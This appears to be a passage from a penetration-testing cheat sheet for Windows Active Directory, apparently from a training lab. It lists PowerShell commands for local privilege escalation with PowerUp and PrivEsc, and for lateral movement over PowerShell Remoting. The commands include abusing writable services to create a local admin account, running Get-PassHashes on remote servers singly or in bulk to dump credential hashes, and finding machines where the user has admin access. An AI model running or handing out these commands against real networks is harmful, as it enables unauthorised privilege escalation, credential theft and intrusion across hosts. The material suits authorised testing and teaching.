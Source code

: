 - **With PowerUp:**
```powershell
# Performs all checks
Invoke-AllChecks                                                         

# Get services with unquoted paths and a space in their name
Get-ServiceUnquoted -Verbose                                             

# Get services where the current user can write to its binary path or change arguments to the binary
Get-ModifiableServiceFile -Verbose                                       

# Get the services whose configuration current user can modify
Get-ModifiableService -Verbose                                           

# This command abuses service "SVC_xxx" to create a user john with password "Password123!" and add it to local admin group
Invoke-ServiceAbuse -Name 'SVC_xxx'

# This command abuses service "SVC_xxx" to change and existing users adding it to local admin group
Invoke-ServiceAbuse -Name 'SVC_xxx' -UserName 'corporate\student01'

```

- **With PrivEsc:**
```powershell
# Performs all checks
Invoke-Privesc                                        
```

# Lateral Movement

- **Powershell Remoting:**
```powershell

# Execute whoami & hostname commands on the indicated server
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName xxxx.corporate.corp.local          

# Execute he script Get-PassHashes.ps1 on the indicated server (the script must be present on the remote computer)
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName xxxx.corporate.corp.local

# If the script is already loaded, just execute the function:
Invoke-Command -ScriptBlock {function:Get-PassHashes} -ComputerName xxxx.corporate.corp.local          

# Massive execution (very noisy)
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)

# Enable Powershell Remoting on current Machine
Enable-PSRemoting

# Start a new session and enter it:
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession $sess

# Start a new session
Enter-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName -Sessions $sess

# External script that find machines in the domain the current user has local admin access to
Find-PSRemotingLocalAdminAccess
```
